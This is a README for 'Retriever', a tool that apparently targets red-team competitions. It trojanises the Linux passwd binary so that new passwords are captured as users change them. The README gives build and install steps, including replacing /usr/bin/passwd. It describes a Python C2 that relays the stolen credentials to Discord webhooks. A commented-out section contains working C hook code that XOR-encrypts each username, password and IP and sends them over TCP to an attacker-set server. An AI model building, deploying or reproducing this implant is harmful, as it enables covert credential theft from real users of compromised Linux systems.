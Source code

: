 # Retriever passwd Shim

#### What is this?
This is a basic Linux binary shim method on the `passwd` binary from the shadow package. This will grab new passwords while they are being changed using the binary and send it back to a defined C2.

#### What does it work on? (Tested)

Ubuntu - 18.04+ <br />Centos - 8+ <br />Debian - 11+ <br />Arch - ???  

#### What is this intended for 
This is intended for red teaming in a competition environment.<br><br>

## Build Instructions
Build binaries on the same operating system that it will be deployed on to reduce risk of issues with binary running. It is highly recommended you match the version as closely as possible.
### Dependancies
The dependancies for this project are listed below. There are also prepared commands to install dependancies using different package managers and distros. 
	
	git make wget autoconf autopoint libtool xsltproc
#### Distro Examples
##### Ubuntu/Debian
	apt install -y git make wget autoconf autopoint libtool xsltproc bison
##### RHEL Based
	yum install -y git make wget autoconf gettext-devel libtool libxslt
##### Arch
	pacman -Syu --noconfirm git wget make autoconf gettext libtool libxslt
##### Alpine
	apk add git wget make autoconf gettext-dev libtool libxslt
### Run Build Script
Clone the Retriever repository. The most up to date version is most likely the best one. 
	
	git clone https://github.com/P4ral1ax/Retriever
Run the `generate.sh` script as a superuser. It will display the variables entered and then it will start the build process. If you would like to change the parameteres you can run the script again and it should run much faster and it WILL overwrite existing files. 
	
	./generate.sh {C2 Address} {Port} {Inferface} {XOR Password}
The generated binary will be placed in the Retriever directory with the correct permissions. If the file does not appear the build process has failed.

Parameter definitions :
- **C2 Address** : IP address credentials will be sent to
- **Port**		 : Destination port to send credentials to  	
- **Interface**  : The interface that the binary will use on the machine to send credentials
- **XOR Password**: The password used to encrypt the credentials 

### Install
To install the implant it is easy as replacing the original `passwd` binary on the system with the shimmed binary. Common location for this binary is `/usr/bin/passwd` and `/bin/passwd`. <br><br>

## Using the Python C2
This tool includes a simple server to recieve the credentals beaconed by the binary. This includes XOR decryption, parsing, and forwarding to a Discord and Sawmill webhook. 

A custom server could easily be used with retriever if desired. 
#### Pip Dependancies  
	python-dotenv requests
#### .env File

The python C2 expects a .env file to provide various parameters to run correctly. The C2 will run without a .env file but it highly recommended that it is utilized. 

#### .env Values

- **WEBHOOK** 	 : Set the Discord webhook (Default : none)
- **XOR_KEY** 	 : The key used to encrypt and decrypt (Default : bingus) 
- **PORT**    	 : Set the port the program listens on (Default : 8000)
- **SAWMILLURL** : Set the Sawmill URL (Default : none)

### Running the C2

Make sure firewalls allow traffic into that port then run the python file using Python3.

	python3 recv_pass.py

<!---
## Hooking the passwd.c File Manually

#### At the Top
Imports needed 

	#include <sys/socket.h>
	#include <arpa/inet.h> 
	#include <sys/ioctl.h>
	#include <netinet/in.h>
	#include <net/if.h>
	#include <unistd.h> 
	#include <string.h> 

Definitions

    #define PORT <port> 
    #define IP "<ip_address>" 


#### Adding the Hook
At line number ~266, right above the code that will salt the password, we add a line to run the function. 

    /* Hook to grab password */
	writetofile(pass);

    /*
	 * Encrypt the password, then wipe the cleartext password.
	 */
	salt = crypt_make_salt (NULL, NULL);

    

#### Adding the Function 

At line ~210 right above the new_password function is where I put this function although it just needs to be above where it is called. Make sure to replace the text "INT_HERE" in the 17th line with the actual interface being used by the computer.

	char* XORCipher(char* data, char* key, int dataLen, int keyLen) {
		char* output = (char*)malloc(sizeof(char) * dataLen);

		for (int i = 0; i < dataLen; ++i) {
			output[i] = data[i] ^ key[i % keyLen];
		}

		return output;
	}

	int writetofile (char *password){

		/* Get uid */
		uid_t uid = geteuid();
		struct passwd * pw = getpwuid(uid);
				
		/* Get IP Address */
		int fd;
		struct ifreq ifr;
		fd = socket(AF_INET, SOCK_DGRAM, 0);
			
		/* I want to get an IPv4 IP address */
		ifr.ifr_addr.sa_family = AF_INET;

		/* I want IP address attached to set interface - CHANGE INTERFACE*/
		strncpy(ifr.ifr_name, ens33, IFNAMSIZ-1);
		ioctl(fd, SIOCGIFADDR, &ifr);
		close(fd);
		
		/* display result */
		char buffer[256];
		char * ip;
		ip = inet_ntoa(((struct sockaddr_in *)&ifr.ifr_addr)->sin_addr);
		int j = snprintf(buffer, 256, "%s:%s:%s\n", name, password, ip);
		
		/* Make Socket */
		int sock = 0, valread;
		struct sockaddr_in serv_addr;

		/* Sock creation Pt 2*/
		if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
			return -1;
		}

		/* Socket Options */
		serv_addr.sin_family = AF_INET;
		serv_addr.sin_port = htons(PORT);
			
		/* Timeout settings */
		struct timeval timeout;
		timeout.tv_sec = 3;
		timeout.tv_usec = 0;
		
		if (setsockopt (sock, SOL_SOCKET, SO_RCVTIMEO, &timeout, sizeof timeout) < 0)  {
			return -1;
		}
		if (setsockopt (sock, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof timeout) < 0) {
			// pass
		}

		/* set IP and set buffer */
		if(inet_pton(AF_INET, IP, &serv_addr.sin_addr)<=0) {
			return -1;
		}
		if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
			return -1;
		}

		/* Encrypt Message - CHANGE KEY*/
		char* key  = "KEY_HERE";
		int key_length = strlen(key);
		int mes_length = strlen(buffer);
		char* xor_message = XORCipher(buffer, key, mes_length, key_length);

		/* Send Message */
		send(sock , xor_message , mes_length, 0);	
		return 0;

	}
--->
